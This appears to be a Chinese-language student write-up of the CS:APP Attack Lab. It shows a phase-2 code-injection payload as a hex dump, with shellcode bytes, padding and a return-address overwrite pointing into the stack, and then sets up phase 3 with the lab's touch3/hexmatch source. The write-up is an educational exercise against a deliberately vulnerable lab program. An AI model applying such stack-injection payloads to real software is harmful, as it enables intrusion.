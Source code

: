 则注入的数据如下

``` 
0x5561dc78: bf fa 97 b9 59 68 ec 17 	
0x5561dc80: 40 00 c3 aa aa aa aa aa		# aa为占位符
0x5561dc88: aa aa aa aa aa aa aa aa
0x5561dc90: aa aa aa aa aa aa aa aa
0x5561dc98: aa aa aa aa aa aa aa aa
0x5561dca0: 78 dc 61 55 00 00 00 00		# 此八个字节将会覆盖返回地址
```



小结: 

1. 注入数据, 修改返回地址, 输入的数据是汇编指令
2. 返回到栈中, 根据输入的汇编指令执行
   汇编指令的工作: 修改R[edi]的值, 转到touch2执行



# Phase3

``` C++
1 /* Compare string to hex represention of unsigned value */
2 int hexmatch(unsigned val, char *sval)
3 {
4 	char cbuf[110];
5 	/* Make position of check string unpredictable */
6 	char *s = cbuf + random() % 100;
7 	sprintf(s, "%.8x", val);
8 	return strncmp(sval, s, 9) == 0;
9 }
7
10
11 void touch3(char *sval)
12 {
13 	vlevel = 3; /* Part of validation protocol */
14 	if (hexmatch(cookie, sval)) {
15 		printf("Touch3!: You called touch3(\"%s\")\n", sval);
16 		validate(3);
17 	} else {
18 		printf("Misfire: You called touch3(\"%s\")\n", sval);
19 		fail(3);
20 	}
21 		exit(0);
22 }

```

Phase3和Phase2类似, 但是Phase3传递的参数为一个字符串, 字符串需要存放在栈帧中. 存放位置不当会被hexmatch的栈帧覆盖.

`touch3`函数首地址为`0x4018fa`

执行完0x4017a8, 此时`R[rsp]=0x5561dc78`
